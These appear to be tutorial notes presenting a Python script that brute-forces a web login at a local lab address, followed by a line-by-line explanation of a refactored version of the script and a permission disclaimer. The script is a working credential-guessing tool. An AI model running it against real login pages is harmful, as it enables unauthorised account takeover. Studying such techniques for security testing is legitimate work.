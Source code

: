 ```python
import requests
import sys

target = "http://127.0.0.1:5000"
usernames = ["admin", "user", "test"]
passwords = "top-100.txt"
needle = "Welcome back"

for username in usernames:
    with open(passwords, "r") as passwords_list:
        for password in passwords_list:
            password = password.strip("\n")
            sys.stdout.write("[X] Attempting user:password -> {}:{}\r".format(username, password))
            sys.stdout.flush()
            r = requests.post(target, data={"username": username, "password": password})
            if needle.encode() in r.content:  # Corrected `endcode` to `encode`
                sys.stdout.write("\n")
                sys.stdout.write("\t[>>>>>] Valid password '{}' found for user '{}'!\n".format(password, username))
                sys.exit(0)  # Added `0` to signify a successful exit
        sys.stdout.flush()
        sys.stdout.write("\n")
        sys.stdout.write("\tNo valid password found for '{}'!\n".format(username))

```

Output
![[Pasted image 20240813225902.png]]


### Step-by-Step Explanation

#### 1. **Importing Modules**

```python
import requests
import sys
```
- **`requests`**: A popular library for making HTTP requests.
- **`sys`**: Provides access to system-specific parameters and functions, such as standard input/output.

#### 2. **Defining Variables**

```python
target = "http://127.0.0.1:5000"
usernames = ["admin", "user", "test"]
password_file = "top-100.txt"
needle = "Welcome back"
```
- **`target`**: The URL of the login endpoint where POST requests will be sent.
- **`usernames`**: A list of usernames to test.
- **`password_file`**: The file containing a list of passwords to test, one per line.
- **`needle`**: The specific text to look for in the response to determine if the login was successful.

#### 3. **Defining the `try_login` Function**

```python
def try_login(username, password):
    try:
        response = requests.post(target, data={"username": username, "password": password})
        response.raise_for_status()  # Ensure we raise an error for bad HTTP responses
        return needle.encode() in response.content
    except requests.RequestException as e:
        sys.stderr.write(f"Error during request: {e}\n")
        return False
```
- **Function Purpose**: Attempts to log in with the given username and password, and checks if the response contains the `needle` text.
- **`requests.post`**: Sends a POST request to the `target` with the username and password as form data.
- **`response.raise_for_status()`**: Raises an HTTPError for bad responses (status codes 4xx or 5xx).
- **`needle.encode() in response.content`**: Checks if the response content contains the `needle` text, indicating a successful login.
- **Exception Handling**: Catches and reports any exceptions that occur during the request.

#### 4. **Defining the `main` Function**

```python
def main():
    for username in usernames:
        with open(password_file, "r") as passwords_list:
            for password in passwords_list:
                password = password.strip()
                sys.stdout.write(f"[X] Attempting user:password -> {username}:{password}\r")
                sys.stdout.flush()
                if try_login(username, password):
                    sys.stdout.write("\n")
                    sys.stdout.write(f"\t[>>>>>] Valid password '{password}' found for user '{username}'!\n")
                    sys.exit(0)  # Exit with status code 0 for success
            sys.stdout.write("\n")
            sys.stdout.write(f"\tNo valid password found for '{username}'!\n")
    sys.exit(1)  # Exit with status code 1 if no valid password is found
```
- **Function Purpose**: Iterates through each username and password, attempts to log in, and reports results.
- **`for username in usernames:`**: Iterates over each username in the list.
- **`with open(password_file, "r") as passwords_list:`**: Opens the password file for reading.
- **`password.strip()`**: Removes any leading or trailing whitespace from the password.
- **`sys.stdout.write` and `sys.stdout.flush()`**: Outputs status messages to the console and ensures they are immediately displayed.
- **`if try_login(username, password):`**: Checks if the current username-password combination is valid by calling `try_login`.
- **`sys.exit(0)`**: Exits the script with a status code of `0` to indicate success if a valid password is found.
- **`sys.exit(1)`**: Exits the script with a status code of `1` if no valid password is found after testing all combinations.

#### 5. **Running the `main` Function**

```python
if __name__ == "__main__":
    main()
```
- **Purpose**: Ensures that the `main` function is executed only if the script is run directly (not imported as a module).

### Summary

1. **Initialize**: Define variables and set up the login endpoint, usernames, password file, and success indicator.
2. **Define Functions**:
    - `try_login()`: Handles login attempts and checks for success.
    - `main()`: Orchestrates the brute-force process by iterating over usernames and passwords.
3. **Execute**: Run the `main` function if the script is executed directly.

This script is a basic example of how to perform a brute-force login attack and should be used ethically and legally. Always ensure you have permission before testing the security of any system.